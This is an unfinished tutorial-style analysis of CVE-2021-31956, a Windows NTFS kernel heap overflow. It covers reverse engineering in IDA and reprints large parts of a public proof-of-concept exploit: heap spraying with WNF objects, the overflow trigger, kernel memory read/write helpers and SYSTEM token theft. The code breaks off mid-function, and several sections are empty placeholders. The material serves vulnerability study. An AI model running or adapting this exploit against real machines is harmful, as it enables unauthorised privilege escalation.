

# A Comprehensive Analysis of CVE-2021-31956

[Return to Home](../index.md)

# Table of Contents

- [Introduction](#introduction)
- [Reverse Engineering the Vulnerability](#reverse-engineering-the-vulnerability)
- [Developing the Exploit](#developing-the-exploit)
- [Analyzing the Exploit](#analyzing-the-exploit)

# Introduction

[Return to Top](./CVE-2021-31956.md)

CVE-2021-31956 is a Windows kernel local privilege escalation
vulnerability found in multiple Windows versions including but not
limited to [Windows 10 20H2](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31956). The computer
security company Kaspersky first detected the vulnerability as a
actively-exploited issue found [in-the-wild](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/).

# Reverse Engineering the Vulnerability

[Return to Top](./CVE-2021-31956.md)

To start things off with, we will examine the advisory posted by Kaspersky and then use the information provided to find the vulnerability ourselves. 

## The Initial Advisory

[Return to Top](./CVE-2021-31956.md)

The relevant portions of the vulnerability [advisory](https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/) posted by Kaspersky is as follows: 

> The other vulnerability, CVE-2021-31956, is a heap-based buffer overflow in `ntfs.sys`. The function `NtfsQueryEaUserEaList` processes a list of extended attributes for the file and stores the retrieved values to a buffer. This function is accessible via a `ntoskrnl` system call and among other things it's possible to control the size of the output buffer. If the size of the extended attribute is not aligned, the function will calculate a padding and the next extended attribute will be stored at a 32-bit alignment. The code then checks if the output buffer is long enough to fit the extended attribute with padding, but it doesn't check for a possible integer underflow. As a result, a heap-based buffer overflow can occur. 

> The exploit uses CVE-2021-31956 alongside the Windows Notification Facility (WNF) to create arbitrary memory read and write primitives. We are planning to publish more information about this technique in the future. 

> As the exploit uses CVE-2021-31955 to get the kernel address of the EPROCESS structure, it is able to use the common post-exploitation technique to steal the SYSTEM token. However, the exploit uses a rarely used "PreviousMode" technique instead. We have seen this technique used by the CHAINSHOT framework and even made a presentation about it at CanSecWest/BlueHat in 2019. The exploit then uses this technique to inject a malware module into the system process and executes it. 

Alongside the advisory, Kaspersky also posted the following pseudocode highlighting the vulnerable code in the `NtfsQueryEaUserEaList` function: 

```cpp
for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = next_ea_list_entry )
{
  ...
 
  out_buf_pos = (DWORD *)(out_buf + padding + occupied_length);
 
  if ( NtfsLocateEaByName(eas_blocks_for_file, eas_blocks_size, &name, &ea_block_pos) )
  {
	ea_block = eas_blocks_for_file + ea_block_pos;
	ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
	if ( ea_block_size <= out_buf_length - padding ) // integer-underflow is possible
	{
  	memmove(out_buf_pos, (const void *)ea_block, ea_block_size); // heap buffer overflow
  	*out_buf_pos = 0;
	}
  }
  else
  {
	...
  }
 
  ...
 
  occupied_length += ea_block_size + padding;
  out_buf_length -= ea_block_size + padding;
  padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
 
  ...
}
```

Based on the analysis performed by [Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/), we can summarize the advisory as follows: 

> There is a heap-based buffer overflow from an integer-underflow in the `ntfs.sys` function `NtfsQueryEaUserEaList` which is accessible via a `ntoskrnl.exe` system call. After gaining a kernel-mode write primitive, the exploit uses CVE-2021-31956 with the Windows Notification Facility and an `PreviousMode` overwrite technique for the exploit's `EPROCESS` structure.

We can now move onto finding the vulnerability ourselves.

## Finding the Vulnerability

[Return to Top](./CVE-2021-31956.md)

Our focus now is to locate the function `NtfsQueryEaUserEaList` in a vulnerable version of `ntfs.sys`. In our case, we will be using a version from Windows 10 20H2. Once we have a version of the vulnerable driver, we will open it in IDA and locate `NtfsQueryEaUserEaList` in IDA: 


As well as examining the pseudocode as shown in the advisory, we will also be looking through each basic block as it corresponds to the pseudocode. When we first generate the pseudocode for `NtfsQueryEaUserEaList`, we notice that we are missing both the variable names and possibly a data structure: 

```cpp
for ( i = a6; ; i = (unsigned int *)((char *)i + *i) )
{
    //...
    v16 = (_DWORD *)(a4 + v9 + v26);
    if //...
    {
        //...
        if ( (unsigned __int8)NtfsLocateEaByName(a2, *(unsigned int *)(a3 + 4), &DestinationString, &v21) )
        {
            v20 = a2 + v21;
            v17 = *(unsigned __int16 *)(v20 + 6) + *(unsigned __int8 *)(v20 + 5) + 9;
            if ( v17 <= a5 - v9 )
            {
            memmove(v16, (const void *)v20, v17);
            *v16 = 0;
            goto LABEL_8;
            }
        }
        else
        {
            //...
            if //...
            {
                //...
                if //...
                {
                    if //...
                    {
                        v23 = v16;
                        a5 -= v17 + v9;
                        v9 = ((v17 + 3) & 0xFFFFFFFC) - v17;
                        goto LABEL_24;
                    }
                }
                //...
            }
        }
        //...
    }
```

It is interesting to note that the our disassembly that IDA produced is quite different from the advisory. This may be due to a different vulnerable version of `ntfs.sys`. However, we will not worry about it for now as it does not seem to impact the exploitability of this bug. 

### Adding a Custom Data Structure in IDA

Now that we have located the vulnerable function ourselves, let's proceed to recreate the data structure shown in the advisory: 

```cpp
ea_block_size = ea_block->DataLength + ea_block->NameLength + 9;
```

Here, we see that this structure provides extended attributes with two separate types of lengths. Now, using the search query 

> extended attribute length structure microsoft"

We get the following two results: 


We examine both structures, and we discover the `FILE_FULL_EA_INFORMATION` structure is the only structure out of the two to have two separate lengths defined: 

```cpp
typedef struct _FILE_FULL_EA_INFORMATION {
  ULONG  NextEntryOffset;
  UCHAR  Flags;
  UCHAR  EaNameLength;
  USHORT EaValueLength;
  CHAR   EaName[1];
} FILE_FULL_EA_INFORMATION, *PFILE_FULL_EA_INFORMATION;
```

Now that we have the associated structure for the vulnerable code in `NtfsQueryEaUserEaList`, we will now go to *View -> Open subviews -> Local types*:


Once there, we will then right click within the view and select *Insert*:


A dialog box will then appear, within the dialog box we paste the `FILE_FULL_EA_INFORMATION` structure: 


We then click *Ok* and head back to the variable `v20`, right-click on it, and select *Convert to struct*...*:



We will then go to our entry for `FILE_FULL_EA_INFORMATION`, select it, and click *Ok*: 


At this point, we see that our data structure updated within IDA: 


### Renaming Variables in IDA

Now that we have added our custom data structure, we can proceed to rename our variables in IDA to that of the variables provided in the initial advisory: 

```cpp
for ( cur_ea_list_entry = ea_list;
          ;
          cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
{
    //...
    if //...
    {
        //...
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
        }
        else
        {
            //...
            if //...
            {
                //...
                if //...
                {
                    if //...
                    {
                        v23 = out_buf_pos;
                        out_buf_length -= ea_block_size + padding;
                        padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
                        //...
                    }
                }
                //...
            }
        }
        //...
    }
```

One thing to note is that we are missing the `eas_blocks_size` parameter as our version of `ntfs.sys` uses a data structure value instead of a direct parameter as in the advisory. In addition, the iteration of `occupied_length` is slightly different.Finally, the way the `for` loop iterates through each entry is counted differently. However, since these differences do not seem to impact the exploit, we will ignore them. 

### Analyzing the Basic Blocks and Pseudocode in IDA

Now that we have all pertinent data structures and variables in the vulnerable function `NtfsQueryEaUserEaList`, let's proceed to include more of the pseudocode to then better learn why this vulnerability exists in the first place. We will take the pseudocode provided by the NCC Group in their [analysis of CVE-2021-31956](https://research.nccgroup.com/2021/07/15/cve-2021-31956-exploiting-the-windows-kernel-ntfs-with-wnf-part-1/) and recontextualize it to our version of `ntfs.sys`: 

```cpp
__int64 __fastcall NtfsQueryEaUserEaList(
        __int64 a1,
        __int64 eas_blocks_for_file,
        __int64 a3,
        __int64 out_buf,
        unsigned int out_buf_length,
        unsigned int *ea_list,
        char a7)
{
  //...
  unsigned int padding; // r15d
  //...
  padding = 0;
  occupied_length = 0;
  while ( 1 )
  {
    //...
    for ( cur_ea_list_entry = ea_list; ; cur_ea_list_entry = (unsigned int *)((char *)cur_ea_list_entry + *cur_ea_list_entry) )
    {
      if ( cur_ea_list_entry == v11 )
      {
        v15 = occupied_length;
        out_buf_pos = (_DWORD *)(out_buf + padding + occupied_length);
        if ( (unsigned __int8)NtfsLocateEaByName(eas_blocks_for_file, *(unsigned int *)(a3 + 4), &name, &ea_block_pos) )
        {
          ea_block = (_FILE_FULL_EA_INFORMATION *)(eas_blocks_for_file + ea_block_pos);
          ea_block_size = ea_block->EaValueLength + ea_block->EaNameLength + 9;
          if ( ea_block_size <= out_buf_length - padding )
          {
            memmove(out_buf_pos, ea_block, ea_block_size);
            *out_buf_pos = 0;
            goto LABEL_8;
          }
        }
        else
        {
          ea_block_size = *((unsigned __int8 *)v11 + 4) + 9;
          if ( ea_block_size + padding <= out_buf_length )
          {
            //...
            *((_BYTE *)out_buf_pos + *((unsigned __int8 *)v11 + 4) + 8) = 0;
            //...
            v18 = ea_block_size + padding + v15;
            occupied_length = v18;
            if ( !a7 )
            {
              if ( v23 )
                *v23 = (_DWORD)out_buf_pos - (_DWORD)v23;
              if ( *v11 )
              {
                v23 = out_buf_pos;
                out_buf_length -= ea_block_size + padding;
                padding = ((ea_block_size + 3) & 0xFFFFFFFC) - ea_block_size;
                goto LABEL_24;
              }
            }
            //...
          }
        }
        //...
      }
      //...
    }
    //...
  }
  //...
}
```

Now that we have the recontextualized pseudocode of `NtfsQueryEaUserEaList`, let's walk through what a syscall to `NtfsQueryEaUserEaList` would look like alongside each basic block. 

### Stepping Through a Syscall to NtfsQueryEaUserEaList

PLACEHOLDER


### Recreating the Entry Point from User-Mode

Our next step is to discover how exactly the vulnerability can be reached from user-mode. According to the previously-covered advisory, this can be achieved through a `ntoskrnl.exe` *system call* (syscall). Therefore, we want to find any syscalls related to extended attributes (`Ea`). After looking through the [Windows x64 syscall table](https://hfiref0x.github.io/NT10_syscalls.html) provided by [hfiref0x](https://hfiref0x.github.io/), we find the following two entries: 


Because the advisory mentioned the vulnerable function is called `NtfsQueryEaUserEaList`, we can make an educated guess and assume that the `NtQueryEaFile` syscall will eventually reach `NtfsQueryEaUserEaList`. To verify this, we will use the [proof-of-concept](https://y3a.github.io/2022/09/03/cve-2021-31956/) by [Y3A](https://y3a.github.io/2022/09/03/cve-2021-31956/) to test our hypotheses: 

```cpp

```

# Developing the Exploit

[Return to Top](./CVE-2021-31956.md)

PLACEHOLDER

# Analyzing the Exploit

[Return to Top](./CVE-2021-31956.md)

Now that we have an understanding of the vulnerability. We can now proceed to examine both the exploit used and the context in which it was originally discovered. 

## Exploit Chain

[Return to Top](./CVE-2021-31956.md)

In Kaspersky's initial triage of the discovery, CVE-2021-31956 was part
of a larger chain of vulnerabilities used to escape the Google Chrome
browser and use CVE-2021-31956 to escalate privileges and gain remote
code execution as the Windows kernel.

As mentioned previously, the attackers used
[CVE-2021-21224](https://nvd.nist.gov/vuln/detail/CVE-2021-21224) as a means to escape the Chrome
sandbox and gain remote code execution. Then, the attackers seemingly
used another exploit, chiefly [CVE-2021-31955](https://nvd.nist.gov/vuln/detail/CVE-2021-31955) to
obtain the kernel address of the current process' `EPROCESS` value
to then overwrite the `PreviousMode` offset to then set the current process'
context to that of `SYSTEM`.

## EPROCESS Structure

[Return to Top](./CVE-2021-31956.md)

What is the `EPROCESS` structure? According to [Microsoft](https://learn.microsoft.com/en-us/windows-hardware/drivers/kernel/eprocess): 

> The EPROCESS structure is an opaque structure that serves as the process object for a process.

In layman's terms, this basically means that if an attacker obtains the `EPROCESS` memory address for their current process, if they had a kernel-mode write primitive, they would be able to escalate their privileges to `SYSTEM`. The specifics of this technique is described in the next section. 

## PreviousMode Overwrite

[Return to Top](./CVE-2021-31956.md)

As noted by Kaspersky, traditionally, an attacker would steal the `SYSTEM` token to escalate privileges. However, by overwriting the `PreviousMode` field with `0x0`, it is possible to then execute various routines from user-made in kernel-mode. This means that with the `PreviousMode` field set to `0x0`, parameters are trusted and thus are not checked by the kernel. 

Now that we have a basic grasp of the context of what CVE-2021-31956 does and how it was discovered, let's now explore the proof-of-concept used to exploit this vulnerability. 

## Include Directives

[Return to Top](./CVE-2021-31956.md)

Now that we understand the context in which the vulnerability was originally used, let's explore the proof-of-concept [Y3A](https://github.com/Y3A) of Star Labs created to exploit CVE-2021-31956.

To start things off, we will examine the import section of the
proof-of-concept. As with most C++ source code, the first section is
usually a series of `#include` directives:

```cpp
#include <stdio.h>
#include <Windows.h>
#include <ntstatus.h>
#include <TlHelp32.h>
#include "CVE-2021-31956.h"
```

As defined by [Microsoft](https://learn.microsoft.com/en-us/cpp/preprocessor/hash-include-directive-c-cpp?view=msvc-170), the `#include`
directive informs the C++ preprocessor to add the contents of the
specified file at the location of the `#include` directive in the source
code.

Looking at the above code block, we notice the first four `#include`
directives use angle bracket notation whereas the last `#include`
directive uses the quotation notation to describe the target header
file. According to the [GNU Foundation](https://gcc.gnu.org/onlinedocs/cpp/Include-Syntax.html), angle brackets
or `#include <file>` are used to specify system header files. However,
double quotation marks or `#include "file"` are used to define a
user-generated header file. The search location for angle bracket
`#include` directives is within a standard list of system directories
whereas for double quotation mark `#include` directives the search
location is within the directory of the source code.

## NULL-Pointer Declarations

[Return to Top](./CVE-2021-31956.md)

Moving on, we now examine the NULL-pointer declaration and type-casting
used prior to the `main` function:

```cpp
NQSI _NtQuerySystemInformation = (NQSI)NULL;
NQEF _NtQueryEaFile = (NQEF)NULL;
NSEF _NtSetEaFile = (NSEF)NULL;
NCWSN _NtCreateWnfStateName = (NCWSN)NULL;
NUWSD _NtUpdateWnfStateData = (NUWSD)NULL;
NDWSN _NtDeleteWnfStateName = (NDWSN)NULL;
NDWSD _NtDeleteWnfStateData = (NDWSD)NULL;
NQWSD _NtQueryWnfStateData = (NQWSD)NULL;
NRVM _NtReadVirtualMemory = (NRVM)NULL;
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
```

In order to effectively break each line down, we will also pair each
NULL-pointer declaration and type-casting to its respective type
definition found in the `CVE-2021-31956.h` header file. To start things
off, let's look at the first line:

```cpp
NQSI _NtQuerySystemInformation = (NQSI)NULL;
```

Here, we see that the variable `_NtQuerySystemInformation` is of type
`NQSI` with the same type being type-cast to the value `NULL`. According
to [East Carolina University](http://www.cs.ecu.edu/karl/3300/spr14/Notes/C/typedef.html), it is possible to use
`typedef` to give a function type a name. For example,

```cpp
typedef NTSTATUS(NTAPI *NQSI) (
    IN SYSTEM_INFORMATION_CLASS SystemInformationClass,
    OUT PVOID SystemInformation,
    IN ULONG SystemInformationLength,
    OUT PULONG ReturnLength OPTIONAL
    );
```

Would define the function pointer `NQSI` of type `NTAPI` to be the type
of the function that takes 4 arguments and returns an `NTSTATUS` value.
Without loss of generality, it is possible to use this same approach to
the other NULL-pointer declarations and type-castings.

## The write64 Function

[Return to Top](./CVE-2021-31956.md)

Moving on, we will now look at the `write64` function:

```cpp
void write64(ULONG_PTR addr, UINT64 data)
{
    char    buf[8] = { 0 };
    ULONG   wrote;

    *(UINT64 *)buf = data;
    _NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);

    return;
}
```

Looking at the `write64` function declaration, namely:

```cpp
void write64(ULONG_PTR addr, UINT64 data)
```

We notice it has a return value of `void` indicating that it does not
return a value. In addition, we see that it takes a Unsigned Long
pointer and a Unsigned 64-bit integer as input. Examining the function
definition we see the following:

```cpp
char    buf[8] = { 0 };
ULONG   wrote;

*(UINT64 *)buf = data;
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);

return;
```

First, a `char` array called `buf` and of size `8` with its elements
initialized to `0`. We also notice the variable `wrote` is declared of
type `ULONG`. According to [Microsoft](https://learn.microsoft.com/en-us/dotnet/visual-basic/language-reference/data-types/ulong-data-type), a `ULong`
data type contains an `8`-byte unsigned integer. Next, we see the
pointer `buf` being cast to a pointer of type `UINT64` before being
dereferenced and given the value of `data`. As such, the datatype of the
content pointed to by `buf` will now be interpreted as a `UINT64`, in this
case as a 64-bit unsigned integer.

Before examining the final line, let's look at the type definition for
the `NWVM` datatype:

```cpp
typedef NTSTATUS (NTAPI *NWVM)(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    IN PVOID                Buffer,
    IN ULONG                NumberOfBytesToWrite,
    OUT PULONG              NumberOfBytesWritten OPTIONAL
);
```

We are looking at the type definition for `NWVM` as a function prototype
for `_NtWriteVirtualMemory` does not exist in this file and it seems
what the author did was use the NULL-pointer declaration and
type-casting

```cpp
NWVM _NtWriteVirtualMemory = (NWVM)NULL;
```

To create a NULL-pointer named `_NtWriteVirtualMemory` of type `NWVM`
where they then called this pointer in the third to final line in
`write64`:

```cpp
_NtWriteVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &wrote);
```

As we can see from the `NWVM` datatype type definition, we have the
following observations:

* The returned handle from `GetCurrentProcess()` is passed as `ProcessHandle`.
* The void pointer `addr` provided as the first input value is passed as `BaseAddress`.
* The Unsigned 64-bit integer pointer `buf` is passed as `Buffer` which has the void pointer datatype.
* The hexadecimal value `0x8` is passed as the Unsigned Long `NumberOfBytesToWrite`.
* The memory address `&wrote` is passed as the output buffer `NumberOfBytesWritten`.

Interestingly enough, since `_NtWriteVirtualMemory` was not called as a
function, but rather as a pointer to a structure, the return value is
not assigned to a variable within the function. Instead after calling
`_NtWriteVirtualMemory`, the function simply returns with no return
value.

## The read64 Function

[Return to Top](./CVE-2021-31956.md)

Below we have the complete `read64` function:

```cpp
UINT64 read64(ULONG_PTR addr)
{
    char    buf[8] = { 0 };
    ULONG   read;

    _NtReadVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &read);

    return *(UINT64 *)buf;
}
```

Looking at the `read64` function declaration, we see that it accepts a
Unsigned Long pointer called `addr` as input and returns a Unsigned
64-bit integer:

```
UINT64 read64(ULONG_PTR addr)
```

Next, as with the `write64` function, we notice that a `char` array and
a Unsigned Long value are declared with the `buf` character array being
initialized to `0`.

Before examining the NULL-pointer function call, let's look at the pointer type definition for `NRVM`: 

```cpp
typedef NTSTATUS (NTAPI *NRVM)(
    IN HANDLE               ProcessHandle,
    IN PVOID                BaseAddress,
    OUT PVOID               Buffer,
    IN ULONG                NumberOfBytesToRead,
    OUT PULONG              NumberOfBytesReaded OPTIONAL
);
```

Here, we see a similar structure to that of `_NtWriteVirtualMemory`. As such, we won't go into as much detail except to break down the values passed from `writ64` to the NULL-pointer function call: 

```cpp
_NtReadVirtualMemory(GetCurrentProcess(), (PVOID)addr, buf, 0x8, &read);
```

We can see the following:

* The `HANDLE` from `GetCurrentProcess()` is passed as `ProcessHandle`.
* The `addr` provided as input to `write64` function is passed as the `BaseAddress`. 
* The initialized buffer `buf` is then passed as the output buffer `Buffer`. 
* The value `0x8` is passed as the `NumberOfBytesToRead`.
* The address to the Unsigned Long value `read` is passed as `&read`.

Finally, the `write64` function returns a pointer to the Unsigned 64-bit integer output buffer `buf`.  

## The fix_runrefs Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS fix_runrefs(_In_ PWNF_PROCESS_CONTEXT ctx)
{
    NTSTATUS            status = STATUS_SUCCESS;
    PLIST_ENTRY         head = (PLIST_ENTRY)read64(&(ctx->TemporaryNamesListHead));
    PLIST_ENTRY         next = read64(head);
    PWNF_NAME_INSTANCE  cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry);

    for (; next != head; next = read64(next), cur = CONTAINING_RECORD(next, WNF_NAME_INSTANCE, TemporaryNameListEntry))
        if ((UINT64)read64(&(cur->Header)) != (UINT64)0x0000000000A80903) {
            write64(&(cur->Header), (UINT64)0x0000000000A80903);
            write64(&(cur->RunRef), (UINT64)0x0000000000000000);
        }

    puts("[+] Fixed all overwritten header and runrefs");

    return status;
}
```

## The steal_token Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS steal_token(_In_ PEPROCESS own_eproc)
{
    NTSTATUS            status = STATUS_UNSUCCESSFUL;
    PLIST_ENTRY         next = (PLIST_ENTRY)read64(&(own_eproc->ActiveProcessLinks));
    PEPROCESS           cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks);

    for (; cur != own_eproc; next = (PLIST_ENTRY)read64(next), cur = CONTAINING_RECORD(next, EPROCESS, ActiveProcessLinks))
        if ((UINT64)read64(&(cur->UniqueProcessId)) == (UINT64)0x4) {
            write64(&(own_eproc->Token), read64(&(cur->Token)));
            status = STATUS_SUCCESS;
            puts("[+] Stole system token!");
            goto out;
        }

    log_warn("Unable to find system process token");

out:
    return status;
}
```

## The write_pool Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS write_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _In_ char *buf, _In_ ULONG buf_sz)
{
    NTSTATUS                status = STATUS_SUCCESS;
    UINT64                  name = 0;

    name = (UINT64)(*(UINT64 *)(statenames[idx].Data));

    status = _NtUpdateWnfStateData((PCWNF_STATE_NAME)&name, buf, buf_sz, NULL, NULL, 0, 0);
    if (!NT_SUCCESS(status)) {
        log_warn("write_pool::_NtUpdateWnfStateData()1");
        goto out;
    }

    puts("[+] Successfully updated adjacent WNF_NAME_INSTANCE");

out:
    return status;
}
```

## The read_pool Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS read_pool(_In_ PWNF_STATE_NAME statenames, _In_ ULONG idx, _Out_ char *buf, _Inout_ PULONG buf_sz)
{
    NTSTATUS                status = STATUS_SUCCESS;
    WNF_CHANGE_STAMP        stamp = 0;
    UINT64                  name = 0;

    name = (UINT64)(*(UINT64 *)(statenames[idx].Data));

    status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);
    if (!NT_SUCCESS(status)) {
        log_warn("read_pool::_NtQueryWnfStateData()1");
        goto out;
    }

out:
    return status;
}
```

## The find_chunk Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS find_chunk(_In_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _Out_ char *buf, _Inout_ PULONG buf_sz, _Out_ PULONG idx)
{
    NTSTATUS                status = STATUS_SUCCESS;
    WNF_CHANGE_STAMP        stamp = 0;
    UINT64                  name = 0;
    int                     overflow = -1;

    for (int i = 0; i < count; i++) {
        if (!statenames[i].Data[0])
            continue;

        name = (UINT64)(*(UINT64 *)(statenames[i].Data));
        status = _NtQueryWnfStateData((PCWNF_STATE_NAME)&name, NULL, NULL, &stamp, buf, buf_sz);

        if ((ULONG)stamp == 0x5000) {
            overflow = i; // found our overflow chunk index
            printf("[+] Successfully overflowed into a WNF_STATE_DATA chunk at index 0x%x\n", overflow);
            break;
        }

        if (!NT_SUCCESS(status)) {
            log_warn("find_chunk::_NtQueryWnfStateData()1");
            goto out;
        }
    }

    if (overflow == -1) {
        // means we corrupted a wnf name instance instead of name header, should overflow again.
        // we will fix these corrupted wnf name instances in the end.
        log_warn("Did not overflow a WNF_STATE_DATA chunk, overflow again!");
        status = STATUS_UNSUCCESSFUL;
        goto out;
    }
    else
        status = STATUS_SUCCESS;

    *idx = overflow;

out:
    return status;
}
```

## The overflow_chunk Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS overflow_chunk(_In_ USHORT overflow_chunk_sz, _In_ char *overflow_data, _In_ USHORT overflow_data_sz)
{
    NTSTATUS                    status = STATUS_SUCCESS;
    HANDLE                      file = INVALID_HANDLE_VALUE;
    IO_STATUS_BLOCK             x = { 0 };
    FILE_FULL_EA_INFORMATION    *fetched_data = zalloc(0x300);
    FILE_GET_EA_INFORMATION     *vuln_selector = zalloc(0x300);
    FILE_GET_EA_INFORMATION     *vuln_selector2;
    FILE_FULL_EA_INFORMATION    *payload = zalloc(0x300);
    FILE_FULL_EA_INFORMATION    *overflow;
    
    file = CreateFileA("c:\\users\\chenl\\desktop\\ABC.txt",
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        CREATE_ALWAYS,
        FILE_ATTRIBUTE_NORMAL,
        NULL);
    if (file == INVALID_HANDLE_VALUE) {
        log_warn("overflow_chunk::_CreateFileA()1");
        goto out;
    }

    if (!fetched_data || !vuln_selector || !payload) {
        log_warn("overflow_chunk::zalloc()1");
        goto out;
    }

    vuln_selector->EaNameLength = (UCHAR)strlen(EANAME1);
    memcpy(vuln_selector->EaName, EANAME1, vuln_selector->EaNameLength);
    vuln_selector->NextEntryOffset = (ULONG)0xc;

    vuln_selector2 = (PFILE_GET_EA_INFORMATION)((UINT64)vuln_selector + (UINT64)(vuln_selector->NextEntryOffset));
    vuln_selector2->EaNameLength = (UCHAR)strlen(EANAME2);
    memcpy(vuln_selector2->EaName, EANAME2, vuln_selector2->EaNameLength);
    vuln_selector2->NextEntryOffset = (ULONG)0x0;

    payload->Flags = (UCHAR)0x0;
    payload->EaNameLength = (UCHAR)strlen(EANAME1);
    payload->EaValueLength = (USHORT)0x9d;
    memcpy(payload->EaName, EANAME1, payload->EaNameLength);
    memset(payload->EaName + payload->EaNameLength + 0x1, 'C', payload->EaValueLength);
    payload->NextEntryOffset = (ULONG)((payload->EaNameLength + payload->EaValueLength + 0x3 + 0x9) & (~0x3));

    overflow = (PFILE_FULL_EA_INFORMATION)((UINT64)payload + (UINT64)(payload->NextEntryOffset));
    overflow->NextEntryOffset = (ULONG)0x0;
    overflow->Flags = (UCHAR)0x0;
    overflow->EaNameLength = (UCHAR)strlen(EANAME2);
    overflow->EaValueLength = (USHORT)overflow_chunk_sz;
    memcpy(overflow->EaName, EANAME2, overflow->EaNameLength);
    memcpy(overflow->EaName + overflow->EaNameLength + 0x1, overflow_data, overflow_data_sz); // goal: overflow the first 0x10 bytes after the next pool header, so 0x20 bytes.

    status = _NtSetEaFile(file, &x, payload, 0x300);
    if (!NT_SUCCESS(status)) {
        log_warn("overflow_chunk::_NtSetEaFile()1");
        goto out;
    }

    status = _NtQueryEaFile(file, &x, fetched_data, 0xaa, FALSE, vuln_selector, 0x300, NULL, TRUE);
    if (!NT_SUCCESS(status)) {
        log_warn("overflow_chunk::_NtQueryEaFile()1");
        goto out;
    }

    puts("[+] Overflowed into neighbouring chunk");

out:
    if (file && file != INVALID_HANDLE_VALUE)
        CloseHandle(file);

    if (fetched_data)
        free(fetched_data);

    if (vuln_selector)
        free(vuln_selector);

    if (payload)
        free(payload);

    return status;
}
```

## The fragment_heap Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS fragment_heap(_Inout_ PWNF_STATE_NAME statenames, _In_ UINT64 count)
{
    NTSTATUS    status = STATUS_SUCCESS;
    UINT64      counter = 0;

    for (int i = 0; i < count; i += 3) {
        // create holes
        status = _NtDeleteWnfStateData(&(statenames[i]), NULL);
        if (!NT_SUCCESS(status)) {
            log_warn("fragment_heap::_NtDeleteWnfStateData()1");
            goto out;
        }

        status = _NtDeleteWnfStateName(&(statenames[i]));
        if (!NT_SUCCESS(status)) {
            log_warn("fragment_heap::_NtDeleteWnfStateData()1");
            goto out;
        }

        statenames[i].Data[0] = 0;
        statenames[i].Data[1] = 0;
        
        counter++;
    }

    printf("[+] Created 0x%llx holes of 0xc0 size in the heap\n", counter * 2);

out:
    return status;
}
```

## The spray_heap Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS spray_heap(_Out_ PWNF_STATE_NAME statenames, _In_ UINT64 count, _In_ char *buf, _In_ UINT64 buf_sz)
{
    NTSTATUS                status = STATUS_SUCCESS;
    SECURITY_DESCRIPTOR     *sd = (SECURITY_DESCRIPTOR *)zalloc(sizeof(SECURITY_DESCRIPTOR));

    if (!sd) {
        log_warn("spray_heap::zalloc()1");
        status = STATUS_NO_MEMORY;
        goto out;
    }

    sd->Revision = 0x1;
    sd->Sbz1 = 0;
    sd->Control = 0x800c;
    sd->Owner = 0;
    sd->Group = (PSID)0;
    sd->Sacl = (PACL)0;
    sd->Dacl = (PACL)0;

    for (int i = 0; i < count; i++) {
        status = _NtCreateWnfStateName(&(statenames[i]), WnfTemporaryStateName, WnfDataScopeMachine, FALSE, 0, 0x1000, sd);
        if (!NT_SUCCESS(status)) {
            log_warn("spray_heap::_NtCreateWnfStateName()1");
            goto out;
        }

        status = _NtUpdateWnfStateData(&(statenames[i]), buf, buf_sz, 0, 0, 0, 0); // spray 0xc0 sized kernel chunks
        if (!NT_SUCCESS(status)) {
            log_warn("spray_heap::_NtUpdateWnfStateName()1");
            goto out;
        }
    }

    printf("[+] Sprayed 0x%llx chunks of 0xc0 sized WNF structures\n", count * 2);

out:
    if (sd)
        free(sd);

    return status;
}
```

## The get_eproc Function

[Return to Top](./CVE-2021-31956.md)

```cpp
NTSTATUS get_eproc(_Out_ PULONG_PTR eproc)
{
    NTSTATUS                   status = STATUS_UNSUCCESSFUL;
    PSYSTEM_HANDLE_INFORMATION handle_info = NULL;
    UINT64                     handle_info_sz = 0x10000;
    HANDLE                     current_proc = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, GetCurrentProcessId());

    printf("[+] Finding _EPROCESS address of current process: %ld\n", GetCurrentProcessId());

    handle_info = (PSYSTEM_HANDLE_INFORMATION)zalloc(handle_info_sz);
    if (!handle_info) {
        log_warn("get_eproc::zalloc()1");
        status = STATUS_NO_MEMORY;
        goto out;
    }

    while ((status = _NtQuerySystemInformation(
        SystemHandleInformation,
